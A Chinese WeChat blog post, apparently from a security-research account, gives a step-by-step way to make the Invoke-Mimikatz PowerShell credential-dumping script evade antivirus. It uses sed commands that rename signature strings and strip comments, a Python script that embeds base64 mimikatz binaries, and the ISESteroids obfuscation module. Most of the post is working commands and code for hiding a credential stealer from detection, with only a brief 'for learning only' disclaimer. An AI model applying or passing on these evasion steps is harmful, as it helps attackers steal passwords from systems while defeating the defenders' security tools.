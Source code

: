##  再探mimikatz免杀

原创 鸿鹄实验室a [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

    前几天看了tubai师傅的免杀抓密码，这里我也来分享一下mimiktaz的powershell脚本的免杀方法。  

  

测试使用的mimikatz文件地址如下：  

  

https://github.com/BC-
SECURITY/Empire/blob/master/empire/server/data/module_source/credentials/Invoke-
Mimikatz.ps1

  

   首先，关于powershell脚本来说有很多现成的混淆工具(主流免杀方式就是混淆)，比如chameleon、Invoke-
Stealth、Chimera等等，但此类工具在混淆mimikatz时，或多或少会出现部分问题。于是我们这里手工对其进行免杀操作。

  

   先对mimikatz的ps脚本执行基础的字符混淆  

  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1  
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1  
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1  
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1  
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1  
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091251.png)

  

弄完后一些基础的东西就算是混淆完成了，如果你想更新mimikatz，可以使用下面的py脚本进行更新

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import fileinputimport base64  
      
      
    with open("./mimikatz_trunk/Win32/mimikatz.exe", "rb") as f:    win32 = base64.b64encode(f.read()).decode()  
    with open("./mimikatz_trunk/x64/mimikatz.exe", "rb") as f:    x64 = base64.b64encode(f.read()).decode()  
      
    for line in fileinput.FileInput("./Invoke-Mimikatz.ps1", inplace=1):  
      line = line.rstrip('\r\n')  if "$PEBytes64 = " in line:    print("$PEBytes64 = '" + x64 + "'")  elif "$PEBytes32 = " in line:    print("$PEBytes32 = '" + win32 + "'")  else:    print(line)

  

此时我们的mimikatz并不能绕过杀软，我们需要利用powershell ise自带的功能来进行后续操作  

  

先来安装该模块，命令如下：  

  

  * 

    
    
    Install-Module -Name "ISESteroids" -Scope CurrentUser -Repository PSGallery -Force

  

安装好以后在ise输入  

  

  * 

    
    
     Start-Steroids

  

开启该模块

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091253.png)

  

然后在工具中选择混淆代码  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091254.png)

  

混淆即可，此时所有操作已经完成。  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091255.png)

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091256.png)

  

  

![]()

鸿鹄实验室a

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

再探mimikatz免杀

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

